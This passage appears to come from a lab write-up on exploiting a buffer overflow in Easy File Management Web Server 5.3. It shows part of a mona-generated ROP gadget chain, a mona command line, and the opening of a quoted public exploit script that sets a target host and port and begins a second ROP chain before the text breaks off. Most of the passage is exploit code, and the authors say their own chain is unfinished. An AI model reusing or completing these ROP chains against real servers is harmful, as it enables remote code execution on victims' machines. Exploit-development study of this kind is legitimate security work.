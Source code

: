 ```python
      0x751dd33b,  # XCHG EAX,EDX # RETN [COMCTL32.dll] ** REBASED ** ASLR 
      #[---INFO:gadgets_to_set_ecx:---]
      0x76c21a87,  # POP ECX # RETN [SHELL32.dll] ** REBASED ** ASLR 
      0x7665daae,  # &Writable location [WININET.dll] ** REBASED ** ASLR
      #[---INFO:gadgets_to_set_edi:---]
      0x75cbfb21,  # POP EDI # RETN [ole32.dll] ** REBASED ** ASLR 
      0x768e0b8c,  # RETN (ROP NOP) [RPCRT4.dll] ** REBASED ** ASLR
      #[---INFO:gadgets_to_set_eax:---]
      0x76ee63ed,  # POP EAX # RETN [SHELL32.dll] ** REBASED ** ASLR 
      0x90909090,  # nop
      #[---INFO:pushad:---]
      0x75cd10ef,  # PUSHAD # RETN [ole32.dll] ** REBASED ** ASLR 
    ]
    return ''.join(struct.pack('<I', _) for _ in rop_gadgets)

  rop_chain = create_rop_chain()
```

### Attempt 2

We ran the mona command:
`!mona rop -rva - cbp " x00" -m ImageLoad.dll,SSLEAY32.dll,LIBEAY32.dll,fmws.exe`
we got a rop chain. but we had to add some instructions. It involved
setting the edx register to it's coorect value and then, unsuccessfully,
crafting the jmp esp value into the eax register. The code can be found
in the listing below. We are very close to solving the last kinks but
were unable due to time constraints.

```python
#!/usr/bin/python
# Exploit Title: Easy File Management Web Server v5.3 - USERID Remote Buffer Overflow (ROP)
# Version:       5.3
# Date:          2014-05-31
# Author:        Julien Ahrens (@MrTuxracer)
# Homepage:      http://www.rcesecurity.com
# Software Link: http://www.efssoft.com/
# Tested on:     WinXP-GER, Win7x64-GER, Win8-EN, Win8x64-GER
#
# Credits for vulnerability discovery:
# superkojiman (http://www.exploit-db.com/exploits/33453/)
#
# Howto / Notes:
# This scripts exploits the buffer overflow vulnerability caused by an oversized UserID - string as
# discovered by superkojiman. In comparison to superkojiman's exploit, this exploit does not 
# brute force the address of the overwritten stackpart, instead it uses code from its own 
# .text segment to achieve reliable code execution.

from struct import pack
import socket,sys
import os
 
host="10.0.2.15"
port=80

def create_rop_chain(base_ImageLoad_dll):
	# rop chain generated with mona.py - www.corelan.be
	rop_gadgets = [
	  #[---INFO:gadgets_to_set_ebx:---]
	  base_ImageLoad_dll + 0x00018a3a,  # POP EBX # RETN [ImageLoad.dll] 
	  0xffffffff,                       #  
	  base_ImageLoad_dll + 0x0001f6da,  # INC EBX # ADD AL,83 # RETN [ImageLoad.dll] 
	  base_ImageLoad_dll + 0x0001f6da,  # INC EBX # ADD AL,83 # RETN [ImageLoad.dll] 
	  #[---INFO:gadgets_to_set_edx:---]
```